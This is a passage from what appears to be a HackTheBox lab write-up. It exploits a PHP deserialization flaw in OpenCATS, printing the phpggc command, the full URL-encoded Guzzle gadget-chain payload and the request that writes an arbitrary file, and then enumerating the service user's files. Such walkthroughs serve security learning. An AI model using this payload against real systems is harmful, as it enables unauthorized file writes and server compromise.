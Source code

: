 The blog post says we can use this vulnerability by sending a GET request to `localhost:8080/index.php?m=activity&parametersactivity%3AActivityDataGrid=[PAYLOAD HERE]`.

So, we generate a test payload with `./phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/target random_file` where `random_file` simply contains `okay`.

This produces:

```
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A6%3A%22okay%0A%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A15%3A%22%2Fdev%2Fshm%2Ftarget%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

So, now we can navigate to the following URL in our web browser, which will create the `/dev/shm/target` file with the contents `okay`.

```
localhost:8080/index.php?m=activity&parametersactivity%3AActivityDataGrid=a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A6%3A%22okay%0A%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A15%3A%22%2Fdev%2Fshm%2Ftarget%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7Di%3A7%3Bi%3A7%3B%7D
```

This is successful! Running `ls -la /dev/shm/target` shows `-rw-r--r-- 1 devel devel 50 Feb 28 03:31 /dev/shm/target`. So, the OpenCATS service is running under the `devel` user. The contents of this file are `[{"Expires":1,"Discard":false,"Value":"okay\n\n"}]`, which is strange because my file only had `okay` in it.

Unfortunately, this is a dead end. While we have an arbitrary file read and write exploit, this exploit is only good for places that `devel` has access to. Running `find / -group devel -or -user devel 2>/dev/null` lists all the files that `devel` has permissions on:

```
/dev/shm/target
/opt/opencats/INSTALL_BLOCK
/usr/local/src
/usr/local/etc
```

`/dev/shm/target` is the file we just created, `/opt/opencats/INSTALL_BLOCK` is a simple file used to prevent the OpenCATS installer from running, and both `/usr/local/src` and `/usr/local/etc` are empty and not obviously used for anything. So, we need to find a differnt privilege escalation route.

### Fail2Ban

I noticed `fail2ban` appearing in the LinPEAS logs quite a bit and I have never seen it on a HackTheBox machine before so I decided to look into it.
